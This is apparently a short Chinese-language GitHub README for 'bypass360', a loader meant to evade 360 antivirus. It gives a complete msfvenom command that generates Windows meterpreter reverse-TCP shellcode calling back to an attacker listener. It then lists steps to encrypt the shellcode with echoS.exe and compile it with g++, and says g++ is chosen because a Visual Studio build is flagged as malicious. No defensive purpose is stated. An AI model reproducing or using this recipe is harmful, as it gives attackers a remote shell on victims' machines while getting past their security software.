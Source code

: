 # bypass360

1、生成shellcode：msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.65.158 LPORT=1337 -f c

2、.\echoS.exe  msf生成的shellcode  密码 shellcode的size

3、编译命令g++ -o 360.exe main.cpp lazy_importer.hpp


echoS也可自行编译

为啥要用g++？因为用vs2019会报毒
